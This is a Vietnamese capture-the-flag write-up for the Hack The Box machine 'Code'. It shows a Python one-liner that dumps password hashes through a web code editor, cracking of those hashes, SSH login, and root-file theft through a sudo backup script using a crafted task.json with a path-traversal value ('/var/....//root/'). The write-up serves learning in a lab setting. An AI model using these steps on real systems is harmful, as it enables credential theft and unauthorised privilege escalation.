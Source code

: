 ```yaml
---
title: Write Up
---
```

![image](https://hackmd.io/_uploads/rk1CsHWR1l.png)

# Machine info and Comment
## Machine info
Đây là một máy đang active nên chưa có thông tin về máy này [Link](https://app.hackthebox.com/machines/653)

## Comment
Thêm một máy tận dụng tính năng vốn có của tool để leo quyền đồng thời gặp lại SSTI. 

# Recon
## nmap
```
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open http Gunicorn 20.0.4
|_http-title: Python Code Editor
```

Ta có thể thấy port 5000 đang chạy Python Code Editor. Điều này có thể cho phép ta chạy command trên hệ thống. Nếu có thể thực thi thì khả năng cao sẽ kiểm soát hệ thống được

# User + Root flag
## Python Code Editor
Vì Editor cho phép thực thi các command của Python, ta cố gắng dump từ databse của hệ thống bằng một query đơn giản
```python
print([(user.id, user.username, user.password) for user in User.query.all()])
```

Kết quả nhận được 
```
(1, 'development', '759b74ce43947f5f4c91aeddc3e5bad3')
(2, 'martin', '3de6f30c4a09c27fc71932bfc68474be')
```

## CrackStation
Sử dụng [CrackStation](https://crackstation.net/) ta sẽ có được credential của 2 user 

![image](https://hackmd.io/_uploads/HJlT7IbAyx.png)

## SSH
ssh vào user `martin` 
```
ssh martin@10.10.11.62
```

## backy\.sh
Sau khi ssh `martin`, ta tìm thấy một tập lệnh nằm tại `/usr/bin/backy.sh` và cat nội dung của nó

![image](https://hackmd.io/_uploads/ByaIsPbC1g.png)

Nội dung đây:

![image](https://hackmd.io/_uploads/HyUdiPbA1g.png)

Tóm gọn về hoạt động của nó như sau:
- Script lấy file task.json làm đầu vào để quyết định những file nào
cần được sao lưu
- Nó chạy với quyền sudo, nghĩa là nó cókhả năng truy cập các file bị hạn chế
- Nó chỉ cho phép sao lưu các file từ các thư mục cụ thể (/var/ và /home/),nhưng ta có thể thao túng nó

## task.json
Sửa file để lấy user flag
```
{
"destination": "/home/martin/",
"multiprocessing": true,
"verbose_log": false,
"directories_to_archive": [
"/home/app-production/user.txt"
],
"exclude": [
".*"
]
}
```
Sau đó bắt đầu chạy script
```bash
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json

martin@code:~/backups$ tar -xjf code_home_app-production_user.txt_2025_March.tar.bz2

martin@code:~/backups$ cat user.txt
```

Tương tự để lấy được root flag
```
{
"destination": "/home/martin/",
"multiprocessing": true,
"verbose_log": true,
"directories_to_archive": [
"/var/....//root/"
]
}
```

```
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json
martin@code:~/backups$ tar -xjf code_var_..._root_root.txt_2025_March.tar.bz2
martin@code:~/backups$ cat root.txt
```

------------------------------------------ Code has been Pwned! ------------------------------------------

![image](https://hackmd.io/_uploads/rknkTwbRJx.png)
